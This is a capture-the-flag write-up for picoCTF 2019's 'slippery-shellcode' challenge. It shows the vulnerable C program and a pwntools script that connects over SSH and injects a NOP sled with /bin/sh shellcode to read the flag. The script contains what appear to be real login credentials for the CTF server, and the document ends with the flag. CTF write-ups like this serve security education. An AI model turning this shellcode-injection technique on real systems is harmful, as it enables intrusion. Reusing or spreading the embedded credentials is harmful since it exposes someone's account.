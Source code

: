 # Problem
This [program](https://2019shell1.picoctf.com/static/d8a216fff7df69807af854ffca65c16c/vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_4_64839254839978b32eb661ca92071d48 on the shell server. [Source](https://2019shell1.picoctf.com/static/d8a216fff7df69807af854ffca65c16c/vuln.c).

## Hints:

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/d8a216fff7df69807af854ffca65c16c/vuln
wget https://2019shell1.picoctf.com/static/d8a216fff7df69807af854ffca65c16c/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

We call ```buf```  with an offset of +- ```1``` to ```256```.

The strategy is to send a shellcode (with a [NOP sled](https://en.wikipedia.org/wiki/NOP_slide)).

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)

  s.set_working_directory('/problems/slippery-shellcode_4_64839254839978b32eb661ca92071d48')
  p = s.process('./vuln')

print p.recv()

sc = '\x90' * 256 + asm(shellcraft.i386.linux.sh())
log.info('Sending shellcode: {}'.format(sc))
p.sendline(sc)

if debug:
  p.interactive()
else:
  p.sendline('ls')
  p.sendline('cat flag.txt')
  p.sendline('exit')

  print p.recvall()
```

Flag: picoCTF{sl1pp3ry_sh311c0d3_3d79d4df}